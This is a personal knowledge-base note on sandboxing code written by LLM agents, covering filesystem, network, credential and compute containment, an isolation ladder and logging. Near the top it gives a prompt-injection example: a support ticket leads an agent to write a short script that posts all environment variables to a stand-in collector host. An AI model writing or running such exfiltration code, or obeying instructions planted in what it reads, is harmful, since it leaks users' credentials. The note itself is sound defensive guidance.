

---
aliases:
  - Sandbox
  - Code Execution
  - Code Interpreter
  - Blast Radius
  - Agent Isolation
tags:
  - llm
  - agents
  - engineering
  - infrastructure
---
> [!ABSTRACT] 🧠 Recall
> **In one line:** Model-authored code will eventually do something you didn't intend, so the design question is never "will it misbehave" but **"what can it reach when it does"**.
> **Metaphor:** A glovebox in a lab. You don't put the reaction in it because you distrust the chemical. You put it in because you might be wrong about the chemical.
> **Where it bites:** Four dimensions of containment — filesystem, network, credentials, compute. Teams do the first one and call it a sandbox.

---
An agent is cleaning a CSV. It writes this and asks to run it:

```python
import pandas as pd
df = pd.read_csv("data/raw.csv")
df = df.dropna().drop_duplicates()
df.to_csv("data/clean.csv", index=False)
```

Perfectly reasonable. You run it. Ninety more like it run that week.

Now step 40 of a different run. The agent has read a support ticket that a customer pasted in, and somewhere in that ticket is a paragraph addressed to the agent. The script it writes is:

```python
import os, requests
requests.post("https://collector.example.net/x", json=dict(os.environ))
```

Three lines. Not clever, not obfuscated. It will execute for exactly the same reason the first one did: ~={blue}your executor's rule was "run the Python the model produced", and it has no way to tell these two apart.=~

The model didn't decide to do that. A stranger's text did. So where should that code have been running?

---
# The glovebox

A chemist working with something unpleasant doesn't hold it at arm's length and concentrate. She puts it in a **glovebox**: a sealed cabinet, thick gloves through the wall, its own extraction, a negative-pressure interlock.

![[sandbox_glovebox.png]]

Ask her why and the answer isn't "because this compound is dangerous." It's: *"because my belief about this compound is the thing most likely to be wrong, and the box doesn't depend on my belief."*

The box makes a promise that has nothing to do with the chemical: **whatever happens in here, stays in here.** That promise is checkable, it holds on a bad day, and it holds when somebody else loaded the cabinet.

> [!NOTE] Sandboxing
> Executing untrusted code inside an environment whose reachable resources are enumerated in advance: which files, which hosts, which credentials, how much CPU and for how long. The security property lives in the **enumeration**, not in the runtime. ^sandbox-def

> [!SUCCESS] Core idea
> You cannot make model output trustworthy, because the model's input is untrusted and there's one channel for both ([[Prompt Injection]]). So stop trying to classify the output and ~={pink}bound the consequence instead: assume every script is hostile and ask what it can reach.=~ That number is your blast radius, and it's the only security figure in the system you fully control. ^bound-the-consequence

---
# The four dimensions, and the one everybody skips

| Dimension | The naive default | What you actually want |
|---|---|---|
| **Filesystem** | The repo, read-write | A scratch dir; inputs mounted read-only; nothing else exists |
| **Network egress** | Wide open 🚨 | ~={red}Deny all, then allowlist by host.=~ This is the one that matters |
| **Credentials** | The service account that runs the app | No ambient credentials at all. Tools hold the auth, not the sandbox |
| **Compute & time** | Whatever the box has | CPU/memory caps, a hard wall-clock kill, no unbounded loops |

Teams do filesystem isolation because it's what "container" gives you for free, and leave egress open because pip needs it. But look back at the three-line script: it never touched a file. **A sandbox with a locked filesystem and open egress is a computer with a tidy disk.**

Exfiltration needs exactly one outbound request. Data destruction needs exactly one credential. Neither needs a filesystem.

> [!TIP] The cheapest possible diagnostic
> Run this in your "sandbox":
> ```bash
> curl -s -m 5 https://example.com > /dev/null && echo "EGRESS OPEN"
> env | grep -iE 'key|token|secret|password'
> ```
> If line 1 prints, and line 2 prints anything — the containment you think you have is a naming convention. Thirty seconds, and it is the single highest-yield check in this note. 🔦

---
# The isolation ladder 🪜

| Level | Isolation | Startup | Verdict |
|---|---|---|---|
| **`exec()` in your process** | None. Shares memory, env, sockets | 0 ms | **Never.** Not even for "just a calculator" |
| **Subprocess + `seccomp`/`rlimit`** | Syscall filter, resource caps | ~10 ms | Better than nothing; one kernel bug from nothing |
| **Container (Docker), non-root, no-net** | Namespaces + cgroups | ~200 ms | **Default for internal tools.** Shared kernel |
| **gVisor / Firecracker microVM** | Own kernel or user-space kernel | ~150 ms–1 s | **Default for anything multi-tenant** 🥇 |
| **Separate machine, isolated VPC** | Physical-ish | Minutes | Money-moving work, or untrusted customer code |
| **Hosted code-interpreter** | Somebody else's microVM | ~1 s | Sensible. Read where your data goes |

The jump worth understanding is container → microVM. A container is *your kernel* with namespaces drawn on it: one kernel escape and the isolation was a UI. A microVM boots its own kernel in ~150 ms, so the escape has to cross a hypervisor. For code written by a model that read the internet, that's the boundary to want.

> [!WARNING] Least privilege is about the *user*, not the agent
> The ambient-authority mistake, restated from [[Tool Use#^tool-trust-boundary|the tool-use boundary]]: an agent acting for a support rep must not be able to reach anything that rep couldn't. If the sandbox holds a service account with project-wide write, then every prompt from every user runs with project-wide write, and one injected support ticket owns the project.
>
> Credentials belong in the **executor**, scoped per call to the **calling user's** identity — never in the environment the code can read. ~={red}`os.environ` is a public API to whatever wrote it.=~ ^no-ambient-credentials

**It isn't only attacks.** The same containment catches the boring incidents, which are more frequent: a cleanup script with a path bug, an infinite loop that eats the node, a test that posts to the production webhook because the URL was in the config it read. Containment doesn't care *why* the call was made.

> [!TIP] What to log, so the sandbox is also an instrument
> Every process spawned, every outbound connection attempt (**including the denied ones** — a spike of denied egress is the earliest injection signal you'll get), every file written outside scratch, peak memory, wall clock. Feed it into [[Observability and Tracing]] beside the trace, so a weird run and a weird syscall are the same page. 📋

Related: [[Tool Use]], [[Prompt Injection]], [[Guardrails]] (constraints in code, not in prompts), [[Human in the Loop]] for the actions containment can't make safe, and [[Python Environments]] / [[ML Infrastructure]] for what the box is actually made of.

---
---
#### 🖼️ Blast radius — draw this before you write the executor



---
> [!SUCCESS] If you remember one thing
> You cannot classify model output as safe, so bound the consequence instead. ~={pink}A locked filesystem with open network egress is not a sandbox — it's a computer with a tidy disk.=~

---
# ⁉️
Locking down code execution is tractable because code runs somewhere you own. But some systems have no API at all — the only way in is the screen a human would look at, and the mouse a human would move.

→ [[Computer Use]]
